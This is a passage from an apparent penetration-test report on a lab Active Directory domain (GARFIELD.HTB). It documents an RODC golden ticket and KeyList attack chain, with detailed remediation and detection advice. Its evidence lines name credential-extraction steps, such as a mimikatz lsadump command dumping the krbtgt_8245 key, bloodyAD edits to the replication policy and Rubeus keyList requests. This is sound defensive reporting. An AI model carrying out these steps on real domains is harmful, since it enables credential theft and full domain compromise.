Monitor for RBCD configuration changes via Windows Event ID 5136 (Directory Service Changes) filtering for msDS-AllowedToActOnBehalfOfOtherIdentity modifications.

**Reference:** SpecterOps: RBCD Attack — https://posts.specterops.io/another-word-on-delegation-10bdbe3cd94a

#### GARF-06 — RODC krbtgt Key Extractable and Never Rotated

**Severity:** Critical

**Affected Asset(s):** krbtgt_8245 (RODC01 sub-krbtgt account)

**Description:** With SYSTEM access on RODC01, the RODC's sub-krbtgt key (krbtgt_8245) was extracted using mimikatz lsadump::lsa. This key is used to sign TGTs issued by the RODC and is the foundation of the RODC golden ticket attack.
There was no evidence that this key had been rotated since the RODC was deployed, meaning a single extraction provides indefinite forgery capability until the key is changed.

**Business Impact:** Possession of the RODC krbtgt key allows forging of TGTs that the primary KDC (DC01) will accept for KeyList credential replication requests. This directly enabled extraction of the real Administrator NTLM hash from DC01.

**Evidence:** mimikatz 'lsadump::lsa /inject /name:krbtgt_8245' returned AES256 key: d6c93cbe...e240. Key successfully used to forge RODC golden ticket via Rubeus.

**Remediation:** Immediately rotate the krbtgt_8245 password. For the RODC sub-krbtgt account, this is done by resetting the password on the krbtgt_8245 account object in AD (not the main krbtgt): Reset-ADServiceAccountPassword -Identity krbtgt_8245
Implement a scheduled rotation policy for RODC krbtgt keys (recommend 90-day cycle minimum). Automate via a scheduled task or PAM solution.
Deploy Credential Guard on the RODC to prevent memory-based credential extraction. Where not possible, restrict local admin access and monitor for mimikatz signatures (Sysmon Event ID 10 for lsass.exe access).
Consider whether the RODC is still operationally required. If the branch office it served no longer exists, decommission it entirely.

**Reference:** Microsoft: RODC Key Distribution — https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/rodc-key-distribution

#### GARF-07 — Password Replication Policy Modifiable by Non-Tier 0 Principal

**Severity:** Critical

**Affected Asset(s):** RODC01.GARFIELD.HTB — msDS-RevealOnDemandGroup, msDS-NeverRevealGroup

**Description:** Through RODC Administrators group membership, l.wilson_adm was able to modify both the msDS-RevealOnDemandGroup (allow list) and msDS-NeverRevealGroup (deny list) attributes on the RODC01 computer object.
The default PRP correctly denied caching of high-privilege accounts including Administrator. However, an attacker was able to add Administrator to the allow list and clear the deny list entirely, enabling the RODC to request Administrator's credentials from DC01 via the KeyList mechanism.

**Business Impact:** Modification of the PRP removes the primary security boundary preventing an RODC from being used to compromise Tier 0 accounts. Once modified, the RODC golden ticket + KeyList attack chain yields the real Administrator NTLM hash from the primary DC. This is total domain compromise.

**Evidence:** bloodyAD used to set msDS-RevealOnDemandGroup to include Administrator and clear msDS-NeverRevealGroup on RODC01$. Subsequent Rubeus keyList request to DC01 succeeded, returning Administrator NTLM hash.

**Remediation:** Protect PRP attributes (msDS-RevealOnDemandGroup, msDS-NeverRevealGroup) on all RODC computer objects. Only Domain Admins should be able to modify these. Remove WriteProperty on these attributes from RODC Administrators and any other non-Tier 0 group.
Treat RODC computer objects as Tier 0 assets. Add them to the AdminSDHolder protection scope or apply explicit deny ACEs preventing non-DA modification of security-sensitive attributes.
Implement monitoring for PRP changes: Windows Event ID 5136 (Directory Service Changes) with a filter on the msDS-RevealOnDemandGroup and msDS-NeverRevealGroup attributes. Any modification outside of a change window should trigger a P1 alert.
Harden the PRP baseline: ensure msDS-NeverRevealGroup explicitly includes all Tier 0 accounts (Domain Admins, Enterprise Admins, krbtgt, DC machine accounts) and that msDS-RevealOnDemandGroup contains only the specific accounts that the RODC legitimately needs to cache.

**Reference:** SpecterOps: At the Edge of Tier Zero — https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/

#### GARF-08 — No Detection of RODC KeyList Credential Replication

**Severity:** High

**Affected Asset(s):** DC01.GARFIELD.HTB (primary KDC)

**Description:** The primary domain controller (DC01) honoured a KeyList TGS request from RODC01 without triggering any observable alerting or blocking. The KeyList mechanism is a legitimate RODC credential replication protocol, but its abuse is well-documented and detectable.
No evidence of monitoring for anomalous RODC replication requests was found during the engagement.

**Business Impact:** An attacker who compromises any RODC and can modify its PRP can silently extract credentials for any account in the domain, including Administrator. Without detection, this attack provides persistent, undetected access.

**Evidence:** Rubeus asktgs with /keyList flag succeeded against DC01, returning Administrator NTLM hash. No lockout, alert, or blocking was observed.

**Remediation:** Monitor for RODC credential replication events: Windows Event ID 4769 (Kerberos Service Ticket Request) on the primary DC where the service is krbtgt and the ticket options include the enc_pa_rep flag. Correlate with the source being an RODC.
Implement an alert for any account being added to an RODC's msDS-RevealOnDemandGroup that is also a member of a Tier 0 group. This is the precursor to the KeyList attack.
Consider deploying Microsoft Defender for Identity (MDI) or a comparable AD threat detection tool, which detects RODC golden ticket and anomalous replication patterns out of the box.
As a defence-in-depth measure, restrict which accounts the RODC can request via KeyList by hardening the PRP (see GARF-07) and ensuring krbtgt key rotation (see GARF-06).

**Reference:** Microsoft Defender for Identity: RODC Alerts — https://learn.microsoft.com/en-us/defender-for-identity/lateral-movement-alerts

